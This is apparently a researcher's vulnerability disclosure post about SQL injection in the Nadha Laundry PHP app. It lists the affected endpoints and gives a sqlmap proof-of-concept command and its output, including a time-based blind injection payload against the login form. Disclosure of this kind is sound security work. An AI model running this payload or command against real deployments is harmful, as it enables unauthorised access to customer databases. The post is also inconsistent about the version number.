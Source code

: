 ```yaml
---
title: "SQL Injection at Nadha Lanudry v3.2.1"
excerpt: "We found SQL Injection in Nadha Lanudry v3.2.1, a Laundry Management App by NadhaMedia."
categories:
  - CVE
tags:
  - SQL Injection
toc: false
classes: wide
toc_label: "TOC"
toc_icon: "cogs"
toc_sticky: true
header:
  og_image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPURFTrr7cNXgdYYHOLOGTqa_XM2gS-EZ-JiNujF2n7Eukd12I3_FYsFBtQmDzUuZRgNjlENL4SZQ53wolNcwAqOHxrbOX7u-g3DXt5Q042JV-yRxQcgk02xDtoppUEK3QZ4IlUtZzbWmgXLVPhIIfwl3dSfW_Geb4rHeCJBidRNYjpMF3eYA0pbjksisF/s888/
---
```


![Nadha Laundry](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhDHLg8NCGeQRf7mgiJ3qdtAfgj8bSOMYhRA5esWTb-nBun51AsIStg2SAA1c3ukuOZJlzXtfc7xvjCWqyW5MWHqwMh8o-go2OEj54KmZ9iZIq3M8iJrnpxla8cuUSy7hlcWCOd8YRfcMXNqV_7SL7QN9dgZcVvxJadWusnQMyX1L2mkMJqtApxQ6HbA_o/s930/nadha-laundry.png)

## Summary
During my vulnerability research on an open-source project, I discovered SQL Injection vulnerabilities at several endpoint in **Nadha Laundry**, a laundry management application using PHP & MYSQL developed by by NadhaMedia.

## Software Details

Detail about POS Nadha Resto.

| Parameter   | Value |
| ------------| ------------|
| Software | Nadha Laundry |
| Description | Laundry Management App based on **Uinsu Web Framework** |
| Developer | Aditia Darma Nasution, Hasnah Nur Ardita |
| Vendor URL | https://github.com/haxorsprogramming |
| Software URL | https://github.com/haxorsprogramming/Nadha-Laundry |

## SQL Injection at Several Endpoint

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE-ID | - |
| Classification | SQL Injection |
| Description | SQL Injection vulnerabilities have been discovered in multiple parameters of Nadha Laundry, both in authenticated and unauthenticated states. |
| Required privilege | Low, Unauth |
| Affected Version | 3.2.0 (#0~612c17a) |
| Publicly disclosed | 13.06.2024 |

We have discovered SQL Injection vulnerabilities **in all endpoint** that interacts with the database. The following are examples of such endpoints:

- POST /Nadha-Laundry/login/prosesLogin
- POST /Nadha-Laundry/utility/getInfoPelanggan
- POST /Nadha-Laundry/pengaturanUmum/prosesEditPengaturan
- etc

> Note: All parameter on affected endpoint is vulnerable to SQL Injection.

This is an example PoC of how to exploit SQL Injection on a login page.

**sqlmap**
```bash
sqlmap -u http://localhost/Nadha-Laundry/login/prosesLogin --data="username=a&password=x" -p username --flush-session --batch --dbms=mysql
```

Response:

```bash
sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 6511 FROM (SELECT(SLEEP(5)))OmZe) AND 'VqXT'='VqXT&password=x
```

## Timeline
- 10 June 2024 - Found the vulnerability
- 10 June 2024 - Contact the developer
- 14 June 2024 - Article published